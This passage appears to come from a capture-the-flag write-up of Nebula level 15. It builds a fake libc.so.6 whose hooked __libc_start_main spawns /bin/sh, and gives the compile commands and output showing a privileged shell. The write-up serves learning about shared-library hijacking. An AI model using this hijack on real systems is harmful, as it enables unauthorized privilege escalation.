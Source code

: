 If we can hook __libc_start_main, we don't need to hook puts()
```
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
}
__cxa_finalize (void *d)
{
	return;
}
```
Compile and test again
```
level15@nebula:/var/tmp/flag15$ gcc -o libc.so.6 -shared -fPIC -Wl,--version-script=/home/level15/version fakeputs.c

level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```
We have to link real library for system() function that we used in our fake lib

```
level15@nebula:/var/tmp/flag15$ gcc -o libc.so.6 -shared -static-libgcc -fPIC -Wl,--version-script=/home/level15/version,-Bstatic fakeputs.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
sh-4.2$ id
uid=1016(level15) gid=1016(level15) euid=984(flag15) groups=984(flag15),1016(level15)
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

**Reference**  
[https://catonmat.net/simple-ld-preload-tutorial](https://catonmat.net/simple-ld-preload-tutorial)  
[https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html)
[https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library)  
[https://www.howtoforge.com/linux-strace-command/](https://www.howtoforge.com/linux-strace-command/)  
[https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html](https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html)
[https://en.wikipedia.org/wiki/Objdump](https://en.wikipedia.org/wiki/Objdump)  
[https://www.ayrx.me/nebula-walkthrough](https://www.ayrx.me/nebula-walkthrough)  
[https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/](https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/)  
[http://klamp.works/2015/12/18/hooking-libc-functions.html](http://klamp.works/2015/12/18/hooking-libc-functions.html)


